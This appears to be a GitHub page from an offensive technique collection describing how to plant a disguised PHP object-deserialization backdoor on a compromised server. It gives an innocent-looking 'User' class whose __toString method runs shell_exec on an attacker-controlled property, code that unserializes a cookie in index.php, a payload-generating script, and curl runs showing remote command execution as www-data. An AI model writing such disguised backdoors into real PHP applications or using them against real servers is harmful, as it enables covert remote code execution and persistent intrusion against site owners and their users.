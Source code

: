 # PHP Object Deserialization

The `PHP Object Deserialization` is not exactly a backdooring technique but it's rather a PHP feature which can lead to a real vulnerabiliy.
So in scenarios where a `PHP Object Deserialization` is already present, it can be exploited for achieving `LFI`, `Arbitrary File Read`, `RFI` and in worse cases `RCE`.
In this example, we'll use the PHP deserialization mechanism to modify some source codes of compromised machine adding some code that looks innocent to the most unaware users, but actually it's a backdoor for achieving `RCE`.

More info about deserialization can be found at: https://www.php.net/manual/it/language.oop5.serialization.php

Let's suppose we have a class of the application called `User` which defines its own methods and instance variables.
We add an instance variable called `cmd` and we add the `__toString()` method (or only the body of the function if it's already declared). Note that other magic methods can be used of course.
The file will contain a script like this (`manage.php`)

```php
<?php

class User {
    private $cmd;

    public function __construct() {
        if (isset($_COOKIE['PHPSESSID'])) {
            $this->cmd = "cat /tmp/sess_" . $_COOKIE['PHPSESSID'];
        }
    }

    // returns info about the current user session
    public function __toString()
    {
        return (string) ($this->cmd !== null ? print_r(shell_exec($this->cmd)) : '');
    }
}
?>
```

This code appears to be more complex than necessary for retrieving the content of the current user session. But at the end, it looks innocent. Eventually, this code can leak sensitive information already but that's another story.

Now let's assume that in our `index.php` (or whatever script which already imports our `manage.php`) we add some more lines:


```php

<?php
// ... previous code
// require_once("manage.php"); // uncomment if not already imported by the current script

$obj = isset($_COOKIE['param']) ? unserialize(base64_decode($_COOKIE['param'])) : new User();

if (isset($_GET['debug'])){
    echo $obj;
}
?>
```

> [!NOTE]
>
> You don't need to `echo` the object if it is echoed from somewhere else. The important thing is that `__toString` will be
> executed for a reason or another. You don't even need to `unserialize` it if `unserialize` of such object is already present
> in some other places of the application.

This allows us to add a cookie param containing the custom command that we want to execute.
To obtain a valid `param` cookie we can use a script like this

```php
<?php

class User {
    private $cmd;

    public function __construct($cmdArg) {
        $this->cmd = $cmdArg;
    }
}

echo base64_encode(serialize(new User($argv[1])));

?>
```


# Exploit the backdoor

```bash
❯ curl http://localhost:8080/?debug -H 'Cookie: PHPSESSID=test'
1

❯ php exploit.php 'whoami' | xargs -I {} curl http://localhost:8080/?debug -H 'Cookie: param={}'
www-data
1

❯ php exploit.php 'id' | xargs -I {} curl http://localhost:8080/?debug -H 'Cookie: param={}'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1
```